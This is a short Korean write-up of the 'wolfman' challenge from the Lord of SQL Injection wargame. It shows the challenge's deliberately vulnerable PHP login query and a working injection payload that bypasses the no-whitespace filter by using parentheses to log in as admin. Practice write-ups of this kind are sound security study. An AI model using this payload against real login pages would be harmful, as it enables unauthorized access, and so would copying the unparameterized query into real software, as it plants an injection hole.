 # LOS -wolfman

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

이번 문제는 공백(whitespace)를 쓸 수 없는 조건이 있다. 
하지만 quetes같은 문자열은 검사하지 않음으로 쉽게 풀 수 있었다. 

공백은 괄호로 대체할 수 있으므로 혹시나 해서 모든 공백을 괄호로 대체해 보았다. 

```mysql
query : select id from prob_wolfman where id='guest' and pw=''or(1=1)and(id='admin')#'
```

풀렸다...?

![1565265920461](C:\Users\qkrwl\Documents\web\los\LOS - wolfman-clear.png)
